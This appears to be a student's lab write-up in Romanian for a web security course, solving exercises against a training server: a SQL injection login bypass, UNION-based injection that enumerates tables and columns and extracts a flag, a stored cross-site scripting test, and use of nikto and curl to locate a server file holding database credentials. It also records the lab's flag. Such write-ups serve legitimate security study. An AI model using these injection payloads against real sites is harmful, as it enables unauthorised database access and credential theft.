 # Laborator 8 - Web Security
## Cerinta 1
serverul ruleaza direct un query-ul urmator SQL cu stringurile date la login:
```sql
SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
```

Ca regula sa dea match pe `username` ii dau un string care se evalueaza la
`true`: `' or 1--`. `--` fac ca restul comenzii, pana la `'` sa fie comentat.
E nevoie si de o parola astfel incat query-ul sa fie corect sintactic. poate fi
orice precedat de `'`.


## Cerinta 2
Mega jegoasa ca e neoie de destul de mult *SQL*.

1. In primul rand, trebuie sa vedem cate coloane intoarce query-ul de mai sus.
Pentru asta, incercam sa ordonam rezultatul interogarii in functie de fiecare
coloana, pana crapa. Incercand sa ne logam cu
`' or 1 order by 1,2,3,4,5,6,7,8,9,10--` vedem ca interogarea crapa la coloana 5.
Asadar, sunt 4 coloane.

2. Acum trebuie sa gasim tabelele din schema `guestbook`. Pentru asta, ne logam
cu:
```
' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' #
```
Observam ca tabelele din baza de date sunt `entries`, `flags` si `users`. Cel
mai probabil cea care ne intereseaza este `flags`.

3. In mod similar, avem nevoie sa stim care e coloana cu flagul propriu-zis.
Mai intai aflam numele tuturor coloanelor din tabela `falgs` astfel:
```
' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' #
```
Numele coloanelor sunt `id`, `name` si `flag`. Probabil flagul se afla in
coloana `flag`.

4. Acum doar selectam flagul din tabela astfel:
```
' union select 1, 2, 3, flag from guestbook.flags #
```
si obtinem flagul: `SpeishFlag{th1sw4sSQL1nj3cti0n}`.


## Cerinta 3
Orice mesaj scris in chenarul din server e interpretat ca *HTML*. Din motivul
asta, orice script e bagat in *HTML*-ul ala e si executat. A*sadar, mesajul
contine:
```html
 <script>
alert("Manele!");
</script> 
```


## Cerinta 5
Trebuie gasit fisierul *JavaScript* cu care ruleaza site-ul si cautate in el
credentialele pentru conectarea la *MySQL*. Pentru asta, se foloseste utilitarul
`nikto`, care scaneaza serverul si gaseste fisierul `server.js`, care poate fi
obtinut printr-un `curl`.

